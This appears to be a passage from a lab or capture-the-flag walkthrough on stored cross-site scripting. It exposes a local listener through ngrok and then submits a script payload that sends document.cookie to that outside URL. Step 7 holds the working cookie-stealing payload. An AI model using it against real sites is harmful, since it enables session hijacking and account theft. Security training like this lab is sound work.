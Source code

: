   ```bash
   ngrok http 8080
   ```

5. **Copy the Forwarding URL**
   You will see something like:

   ```
   Forwarding https://xyz123.ngrok.io -> http://localhost:8080
   ```

   Save the URL: `https://xyz123.ngrok.io`

6. **Create a Cookie in Your Browser:**

   * Open Developer Tools → Application Tab
   * Under **Cookies**, expand `challenges.defhawk.com`
   * Right-click → **Add Cookie**

     * Name: `test`
     * Value: `sensitive_cookie`
<img width="884" alt="image" src="https://github.com/user-attachments/assets/c027308a-ea85-494a-85f9-f7feda95333c" />

7. **Use the Payload:**

   ```html
   Nice site! <script> window.open("https://xyz123.ngrok.io?" + document.cookie) </script>
   ```

8. **Submit the Payload on the Lab Page**

9. **Observe the Cookie Leak:**
   The cookie should appear in your HTTP listener (Kali terminal), showing it has been sent to your ngrok URL.


